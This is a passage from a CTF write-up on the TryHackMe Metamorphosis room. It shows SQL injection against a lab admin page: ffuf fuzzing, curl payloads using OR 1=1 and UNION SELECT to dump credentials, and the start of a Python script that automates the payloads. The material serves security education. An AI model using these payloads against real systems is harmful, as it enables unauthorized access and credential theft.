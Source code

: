 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015501.png)

As you can see, when clicked the "Submit Query" button, **it'll send a POST request to `/admin/config.php`, with parameter `username`.**

Then, it'll display the username and password.

**Now, we can try to test SQL injection, as it may be using SQL query to fetch users' info:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# ffuf -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://metamorphosis.thm/admin/config.php -X POST -d "username=FUZZ" -fs 0
[...]
```

But no luck in fuzzing...

## Initial Foothold

**Let's do it manually:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/admin/config.php --data-urlencode 'username=" OR 1=1-- -'    
Username Password<br>tom {Redacted}<br /> 
```

**After some testing, I found that we can use `"` to break out of the SQL query, then use `OR 1=1` to always evaluate `true`, and finally use `-- -` to comment out the reset of the query.**

Hence, it's vulnerable to SQL injection!

But which type of SQL injection? Union-based? Blind-based?

**Let's test for Union-based:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# curl http://metamorphosis.thm/admin/config.php --data-urlencode 'username=" UNION ALL SELECT "string1","string2","string3"-- -'
Username Password<br>string2 string3<br />
```

It worked!

Now we found that **it's vulnerable to Union-based SQL injection, it has 3 columns, and column 2, 3 accepts string data type.**

**To automate things, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests

class exploit():
    def __init__(self, url):
        self.url = url
        
    def sendRequest(self, payload):
        queryData = {
            'username': payload
        }

        requestResult = requests.post(self.url, data=queryData)
        listRequestText = requestResult.text.split('<br>')
        payloadResult = listRequestText[2:]

        print(f'[*] Payload: {payload}')
        print('[*] Payload result:')

        # Check only has 1 result
```